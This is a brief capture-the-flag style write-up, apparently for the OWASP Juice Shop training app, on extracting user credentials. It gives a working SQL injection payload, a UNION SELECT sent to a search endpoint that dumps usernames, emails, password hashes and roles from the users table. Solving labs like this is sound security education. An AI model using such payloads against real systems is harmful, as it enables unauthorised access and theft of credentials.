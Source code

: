 # User Credentials

`https://pwning.owasp-juice.shop/companion-guide/latest/part1/running.html`

Same case as `Database Schema`, we attack from a search endpoint.

![alt text](assets/usercred1.png)

![alt text](assets/usercred2.png)

We can use a UNION SELECT attack to extract data from the users table.

```sql
apple'))+UNION+SELECT+id,username,email,password,role,profileImage,isActive,lastLoginIp,deletedAt+FROM+users+--
```

![alt text](assets/usercred3.png)

![alt text](assets/usercred4.png)